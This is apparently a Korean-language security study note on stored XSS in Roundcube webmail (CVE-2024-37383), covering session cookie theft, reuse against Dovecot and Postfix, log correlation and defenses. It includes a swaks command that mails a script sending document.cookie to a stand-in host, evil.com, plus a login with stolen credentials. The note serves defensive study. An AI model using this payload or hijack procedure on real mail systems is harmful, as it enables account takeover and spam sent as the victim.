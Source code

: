## Context

**Tactic**: Initial Access → Discovery → Exploitation → Credential Access → Lateral Movement  
**Technique**:

- T1046: Service Discovery
- CWE-79: Stored Cross-Site Scripting (XSS)
- T1078: Valid Accounts (via Session Hijacking)

**Procedure**:
- 공격자는 웹메일 서비스가 `Roundcube`임을 식별하고, `80`/`443` 포트를 통해 접근 가능한 로그인 UI를 발견한다.  IMAP (`993`), SMTP (`587`) 배너를 통해 `Dovecot`, `Postfix` 구성도 파악할 수 있다.  
- 이후 **CVE-2024-37383** 저장형 XSS 취약점을 포함한 메일을 발송하여 **브라우저 내 세션 쿠키(`PHPSESSID`)를 탈취**한다. 이 쿠키는 Roundcube에서의 인증 상태 전체를 대표하며, 세션 저장소(Redis/MySQL)를 통해 IMAP/SMTP 권한까지 연계되기 때문에 **쿠키 1개 탈취만으로 전체 계정이 장악**된다.

탈취된 쿠키는 다음과 같은 방식으로 인증 우회에 사용된다.
1. Roundcube 웹 UI에 접속 (쿠키 삽입)
2. PHP 세션으로 자동 로그인
3. 내부 SMTP 서버에 로그인 (`sasl_username=alice`)
4. 정상 사용자 권한으로 외부 메일 전송 성공 이 과정은 단순한 XSS 공격이 아니라, 웹 기반 인증 계층이 프로토콜 인증까지 연결된, 구조적 결함에 의한 **시스템 관통형 세션 하이재킹**이다.

## Core Idea

웹메일 시스템은 겉으로 보기에 단일한 애플리케이션처럼 보이지만, 실제로는 다음과 같은 구조와 흐름으로 동작한다.

```
        [ User (Browser) ]
                |
        HTTPS (TLS 443)
                v
     +----------------------+
     |  Nginx Reverse Proxy |  <-- TLS Termination
     +----------------------+
                |
        FastCGI (PHP-FPM)
                v
     +------------------------+
     |   Roundcube Webmail    |  <-- Auth Session (PHPSESSID)
     |  - Acts as MUA (IMAP)  |  <-- XSS Injection Point
     |  - SMTP Submission UI  |
     +-----------+------------+
                 |
         +-------+--------+
         | Authentication |
         | Session Store  |  <-- Redis / MySQL backend
         +----------------+
         |               |
  IMAP over SSL     SMTP with STARTTLS
     (993)               (587)
       |                   |
+------v------+     +------v------+
|  Dovecot    |     |  Postfix    |
| (IMAP Auth) |     | (SMTP Auth) |  <-- Valid Accounts (T1078)
+------+------|     +------+------+
       |                   |
       |             +-----v------+
       |             | Rspamd AV  |  <-- Spam, Virus Filtering
       |             +------------+
       |
+------v------+
|   Maildir   |  <-- Local Mail Delivery (LDA)
+-------------+

                === Threat Flow ===

    [XSS Injection in Roundcube UI]
                     ↓
    [Cookie Theft → PHPSESSID hijack]
                     ↓
    [Session Reuse for SMTP AUTH]
                     ↓
    [Postfix: Outbound Spam via stolen session]
```

**컴포넌트별 역할과 보안 고려사항:**

|**컴포넌트**|**역할**|**주의할 점**|
|---|---|---|
|**Browser**|사용자 진입점|XSS 실행 위치|
|**Nginx**|TLS 종료|인증 경계 없음|
|**Roundcube**|Web UI, MUA 역할|인증 세션 유지, 공격 표면|
|**Session Store**|인증 상태 유지|탈취 시 권한 탈취로 직결|
|**Dovecot**|메일 수신 처리 (IMAP)|인증 정보 로깅|
|**Postfix**|메일 발송 처리 (SMTP)|인증 후 외부 메일 가능|
|**Rspamd**|필터 계층|악성 페이로드 필터링|
|**Maildir**|메일 저장소|공격자 메일 주입 가능|

이 구조에서 **세션 쿠키는 시스템의 인증 상태 전체를 대표하는 단일 키**이다. 공격자는 이 키 하나만으로 다음을 수행할 수 있다.

- 사용자 권한으로 IMAP 수신
- SMTP 인증 후 외부 메일 발신
- 전체 Roundcube UI 접근

## Code / Experiment

**1. 서비스 탐지 및 배너 수집**

```bash
openssl s_client -connect imap.example.com:993
openssl s_client -connect smtp.example.com:587
```

**2. 악성 XSS 메일 발송 (저장형)**

```bash
swaks --to victim@example.com \
      --from attacker@example.com \
      --server smtp.example.com:587 \
      --auth LOGIN --auth-user attacker --auth-password 1234 \
      --data "Subject: XSS Test\n\n<script>fetch('http://evil.com/'+document.cookie)</script>"
```

**3. 탈취 세션 기반 인증 시도**

```bash
swaks --to admin@example.com \
      --from alice@example.com \
      --auth LOGIN --auth-user alice --auth-password stolen123 \
      --server smtp.example.com:587 --tls
```

**4. 로그 상관 분석**

```bash
grep "alice" /var/log/dovecot/imap-login.log
grep "sasl_username=alice" /var/log/mail.log
grep "PHPSESSID" /var/log/nginx/access.log
```

## Note

- Roundcube는 단순 웹 인터페이스가 아니다. `IMAP/SMTP 프로토콜`을 브라우저로 추상화해 전달하는 인증 게이트웨이이다.
    
- **인증 = 쿠키 1개인 시스템의 구조적 결함**
    - 일반적인 인증 시스템에서는 각 서비스(IMAP, SMTP, 웹 UI)가 독립적인 인증 체계를 가져야 하며, 경계가 명확히 분리되어야 한다. 그러나 Roundcube 환경에서는 이 모든 인증이 단일 PHP 세션에 의존한다.
    - `PHPSESSID` 쿠키는 브라우저-서버 간 인증을 처리하는 프론트엔드 메커니즘이지만, 동시에 `Dovecot(IMAP)`와 `Postfix(SMTP)`의 백엔드 인증까지 결정하는 "마스터 키"가 된다.
    - 이는 마치 호텔의 객실 키가 동시에 금고, 식당, 수영장 등 모든 시설을 열 수 있는 것과 같은 상황으로, 한 지점의 취약점이 전체 시스템 권한 탈취로 이어지는 위험한 구조이다.
- **웹 UI와 시스템 프로토콜 간 인증 연동의 설계 결함**
    - 이상적인 설계에서는 웹 애플리케이션(`Roundcube`)과 메일 프로토콜 서버(`Dovecot`/`Postfix`) 사이에 명확한 **신뢰 경계(Trust Boundary)**가 존재해야 한다.
    - 그러나 현재 구조에서는 `PHP 세션`이 자동으로 `IMAP/SMTP 서버`에 대한 **인증 프록시 역할**을 하면서, 인증 책임이 모호해진다.
        - 사용자는 웹 UI에서만 인증하지만, 그 인증이 자동으로 다른 모든 서비스로 전파된다.
        - 인증 토큰(세션 ID)이 브라우저 측에 저장되어 클라이언트 공격에 직접적으로 노출된다.
        - 백엔드 서비스들은 웹 서버에서 온 요청을 무조건 신뢰하는 구조이다.
- **DMZ 영역에서의 인증 문제**
    - **DMZ(DeMilitarized Zone)**는 내부망과 외부망 사이의 중간 영역으로, 보안 위험이 높은 구간이다.
    - `Roundcube`는 일반적으로 이 DMZ에 위치하여 외부에서 접근 가능하면서도 내부 메일 서버(`Dovecot`/`Postfix`)와 통신한다.
    - 문제는 이 DMZ에 위치한 애플리케이션이 내부 자원에 대한 인증을 직접 처리하면서도:
        - 다단계 인증(MFA)이나 세션 바인딩 같은 추가 보안 조치가 없다.
        - 세션 ID만으로 모든 권한이 부여되며, 이 ID는 JavaScript로 쉽게 탈취 가능하다.
        - 인증 토큰 갱신, 범위 제한, 사용 제한과 같은 방어 기법이 부재하다.
- 세션 쿠키 탈취 후 가능한 모든 동작은 다음과 같다:
    - Roundcube 로그인 상태 재현
    - IMAP 수신
    - SMTP 인증 우회
    - 사용자 설정 변경
    - 메일 필터 규칙 수정 (악성 메일 자동 처리)
    - 연락처 접근 및 수정
    - 자동 응답 설정 변경
    
- 공격 시나리오의 재구성 로그 조합
```
[Step 1] Apache (access_log)
    └▶ GET /?_task=mail&_uid=123&_mbox=INBOX
        Cookie: PHPSESSID=abcd1234
    ⇨ 웹 UI 기반 세션 접근 시도 감지
[Step 2] Dovecot (imap-login.log)
    └▶ Login: user=alice, method=PLAIN, rip=192.0.2.66
    ⇨ 탈취된 세션을 기반으로 IMAP 접속 시도
[Step 3] Postfix (mail.log)
    └▶ client=unknown[192.0.2.66], sasl_username=alice
    ⇨ 외부 발신 시도 성공 → 권한 재사용 성공
```

- 방어 전략
    - Roundcube의 `CSP/HTMLPurifier` 설정 강화
    - Redis/MySQL 세션 ID 보안 검증 추가 (IP 바인딩, 세션 수명 제한)
    - SMTP 인증 로그 기반 세션-아이디 상관 분석 스크립트 구축
    - `Rspamd 필터`에 JS 스니펫 탐지 규칙 삽입
    - 세션과 인증 분리: 웹 UI용 세션과 `IMAP/SMTP 인증`을 완전히 분리
    - 중요 작업(설정 변경, 외부 메일 발송)에는 2차 인증 도입

